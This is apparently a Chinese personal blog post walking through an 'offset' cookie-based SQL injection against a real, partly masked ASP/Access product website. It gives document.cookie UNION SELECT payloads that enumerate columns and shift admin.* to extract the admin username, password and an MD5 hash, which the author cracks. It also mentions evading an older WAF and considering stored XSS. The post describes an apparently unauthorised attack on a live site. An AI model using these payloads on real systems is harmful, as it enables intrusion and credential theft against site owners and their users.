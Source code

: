 ```yaml
---
layout: post
title:  "简单的偏移注入"
categories: 渗透测试
tags: 渗透测试 渗透
author: young
---
```




* content
{:toc}








## 目标网站

![图片1.png](https://i.loli.net/2020/02/02/orzMnXVvwCTfOWi.png)

偏移注入也是cookie注入吧，一种骚操作  
所以需要在字段比较多的进行测试，所以我直接在产品中心这个地方点进去  

## 开始

这个小网站我找了好久~~~

![图片2.png](https://i.loli.net/2020/02/02/RjlheXWdI9crEfx.png)

不知道怎么讲嘞，似乎好像可以过老版本的狗，一些老版本的狗只检测get和post传参  
目标网站 :http://www.******.com/ProductShow.asp?ID=12    
然后再用document.cookie="ID="+escape("12") 进行cookie注入    
不知道该咋说~~~~~  
第一步： 先把?ID=12  
网站后面的  ?ID=12 给去掉  

![图片3.png](https://i.loli.net/2020/02/02/xUk1JCI7GFTyswN.png)

然后再按f12这边按下回车

![图片4.png](https://i.loli.net/2020/02/02/QOzvpxGNy4l2cEg.png)

然后刷新下页面，发现没有报错，这里可以使用偏移注入

![图片5.png](https://i.loli.net/2020/02/02/MlnmE9V28qbaQcj.png)

一直order by ，发现有24报错了，应该就有23个字段，再使用联合查询 union select  
跟一般注入没啥区别，只不过传参进去的方式不同  
Asp的站一般跟着access了，关于access库的问题就不说了  
![图片6.png](https://i.loli.net/2020/02/02/B5cDUNZum6wyxkz.png)  
于是乎就出现了回显点  
这里会用到 * 这个符号，具体怎么样看下去就知道了  
哎呀，反正语文不好，不知道咋说  
* 在数据库中代表所有  然后我们发现  

```bash
 document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 from admin")  
 ```

我们在f12中输入这段，然后发现没有报错，说明有admin这个表  
然后我们在用 admin.* 就代表着admin表里面所有的数据  
但是偏移注入得看字段多不多，字段少的话就无法使用 ，可以说是占位符吧  

```bash
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,8,9,admin.* from admin")
```

![图片7.png](https://i.loli.net/2020/02/02/nPla9OGIy62UV8k.png)  

然后发现到当admin.\*到11这边报错了，当admin.\*到10这边页面正常

![图片8.png](https://i.loli.net/2020/02/02/y1ZY5neq4h3oHQ6.png)

那就可以“漂移”了，顾名思义，偏移注入就是往左偏移  
但是字段不能变

![图片9.png](https://i.loli.net/2020/02/02/SloJvTpLWCxn8K2.png)

```bash
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,8,9,admin.* from admin")
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,,8,admin.*,9 from admin")
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,admin.*,8,9 from admin")
```

莫得错，就是一直向左“漂移”，但是字段数不
直到偏移出数据来  
![图片10.png](https://i.loli.net/2020/02/02/KjFYmQSMOiGZzy6.png)

偏移到  当 admin.* 在5的那个位置时候出现了一串东西，但是不晓得  
估计是user吧，继续偏移到4的时候

![图片11.png](https://i.loli.net/2020/02/02/eRfy7xOQDodpX3G.png)

出现了这个，这个估计是密码，然后继续偏移，发现还有一串md5加密的，于是我解密时候，发现是一串数字

![图片12.png](https://i.loli.net/2020/02/02/joGevwSrmBH3gOR.png)

呃呃呃，然后就没了  
一个简单的偏移注入，自小语文不好，所以不慌  
然后这个网站在get那边注入有waf，所以....    
低水平，看看就好  
（我发现还可以试试存储型xss，但是时间不够）  
